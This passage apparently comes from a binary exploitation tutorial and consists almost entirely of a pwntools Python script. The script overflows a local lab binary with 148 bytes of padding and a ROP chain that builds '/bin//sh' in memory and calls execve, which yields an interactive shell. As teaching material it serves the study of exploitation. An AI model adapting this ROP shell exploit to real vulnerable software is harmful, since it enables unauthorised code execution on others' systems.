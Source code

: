 Integrating the generated code is as easy as copy and pasting into the final exploit.

```
#!/usr/bin/python

from pwn import *

from struct import pack

# Padding goes here
rop = ''

rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee060) # @ .data
rop += pack('<I', 0x080bbb46) # pop eax ; ret
rop += '/bin'
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee064) # @ .data + 4
rop += pack('<I', 0x080bbb46) # pop eax ; ret
rop += '//sh'
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x080493e3) # xor eax, eax ; ret
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x080481d1) # pop ebx ; ret
rop += pack('<I', 0x080ee060) # @ .data
rop += pack('<I', 0x080e2fc9) # pop ecx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x080493e3) # xor eax, eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x08070605) # int 0x80

def main():
    # Start the process
    p = process("../build/1_staticnx")

    # Craft the payload
    payload = "A"*148 + rop
    payload = payload.ljust(1000, "\x00")

    # Send the payload
    p.send(payload)

    # Transfer interaction to the user
    p.interactive()

if __name__ == '__main__':
    main()
```
